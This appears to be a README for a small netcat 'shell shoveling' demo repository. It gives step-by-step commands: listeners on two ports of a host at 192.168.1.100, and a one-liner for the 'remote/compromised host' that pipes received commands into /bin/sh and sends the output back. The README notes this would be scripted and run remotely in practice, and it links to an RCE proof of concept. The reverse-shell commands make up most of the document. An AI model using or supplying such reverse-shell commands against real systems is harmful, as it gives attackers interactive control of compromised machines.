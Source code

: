 Shell Shovel
============

I put this together to demonstrate shell shoveling using netcat. I admit,
creating these shell scripts is a little silly, however, it is for
demonstration.


## Running the demo

On your localhost run shovel-input.sh and shovel-display.sh

Be sure your iptables rules are set to allow access to the ports.

For the sake of demonstration we will localhost is at 192.168.1.100


### In terminal window 0x1

```$ ./shovel-input.sh 41337```

You could run the following instead.

```$ nc -vn -l -k -p 41337```

After the next two things are running, come back here to run commands that
will be executed on the target host and display in the next terminal,
window 0x2.

### In terminal window 0x2

```$ ./shovel-display.sh 41338```

You could run the following instead.

```$ nc -l -k -vn -p 41338```

The output of commands executed in window 0x1 will appear here.


### From the remote/compromised host

Do the netcat shoveling magic.

```$ ./target.sh 192.168.1.100 41337 41338```

You could also run the following instead.

```$ nc -vn 192.168.1.100 41337 | /bin/sh | nc -vn 192.168.1.100 41338 > /tmp/foo.bar```

In practice something like this would be scripted and executed remotely.


## More

Here's a great write-up that includes a RCE PoC.

    http://www.madirish.net/207
